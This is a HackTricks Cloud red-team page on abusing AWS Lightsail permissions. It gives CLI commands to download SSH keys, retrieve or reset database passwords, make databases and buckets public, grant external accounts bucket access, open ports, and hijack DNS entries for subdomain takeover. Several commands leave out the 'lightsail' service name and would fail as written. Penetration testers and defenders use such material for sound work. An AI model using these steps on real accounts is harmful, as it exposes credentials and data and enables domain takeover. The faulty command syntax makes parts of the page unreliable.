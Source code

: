 # AWS - Lightsail Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Lightsail

For more information about Lightsail check:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
It’s important to note that Lightsail **doesn’t use IAM roles belonging to the user** but to an AWS managed account, so you can’t abuse this service to privesc. However, **sensitive data** such as code, API keys and database info could be found in this service.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

This permission will allow you to get the SSH keys to access the instances:

```
aws lightsail download-default-key-pair
```

**Potential Impact:** Find sensitive info inside the instances.

### `lightsail:GetInstanceAccessDetails`

This permission will allow you to generate SSH keys to access the instances:

```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```

**Potential Impact:** Find sensitive info inside the instances.

### `lightsail:CreateBucketAccessKey`

This permission will allow you to get a key to access the bucket:

```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```

**Potential Impact:** Find sensitive info inside the bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

This permission will allow you to get the credentials to access the database:

```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```

**Potential Impact:** Find sensitive info inside the database.

### `lightsail:UpdateRelationalDatabase`

This permission will allow you to change the password to access the database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

If the database isn't public, you could also make it public with this permissions with

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potential Impact:** Find sensitive info inside the database.

### `lightsail:OpenInstancePublicPorts`

This permission allow to open ports to the Internet

```bash
aws lightsail open-instance-public-ports \
    --instance-name MEAN-2 \
    --port-info fromPort=22,protocol=TCP,toPort=22
```

**Potential Impact:** Access sensitive ports.

### `lightsail:PutInstancePublicPorts`

This permission allow to open ports to the Internet. Note taht the call will close any port opened not specified on it.

```bash
aws lightsail put-instance-public-ports \
    --instance-name MEAN-2 \
    --port-infos fromPort=22,protocol=TCP,toPort=22
```

**Potential Impact:** Access sensitive ports.

### `lightsail:SetResourceAccessForBucket`

This permissions allows to give an instances access to a bucket without any extra credentials

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
    --resource-name <instance-name> \
    --bucket-name <bucket-name> \
    --access allow
```
{% endcode %}

**Potential Impact:** Potential new access to buckets with sensitive information.

### `lightsail:UpdateBucket`

With this permission an attacker could grant his own AWS account read access over buckets or even make the buckets public to everyone:

```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```

**Potential Impact:** Potential new access to buckets with sensitive information.

### `lightsail:UpdateContainerService`

With this permissions an attacker could grant access to private ECRs from the containers service

```bash
aws update-container-service \
    --service-name <name> \
    --private-registry-access ecrImagePullerRole={isActive=boolean}
```

**Potential Impact:** Get sensitive information from private ECR

### `lightsail:CreateDomainEntry`

An attacker with this permission could create subdomain and point it to his own IP address (subdomain takeover), or craft a SPF record that allows him so spoof emails from the domain, or even set the main domain his own IP address.

```bash
aws lightsail create-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Potential Impact:** Takeover a domain

### `lightsail:UpdateDomainEntry`

An attacker with this permission could create subdomain and point it to his own IP address (subdomain takeover), or craft a SPF record that allows him so spoof emails from the domain, or even set the main domain his own IP address.

```bash
aws lightsail update-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Potential Impact:** Takeover a domain

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

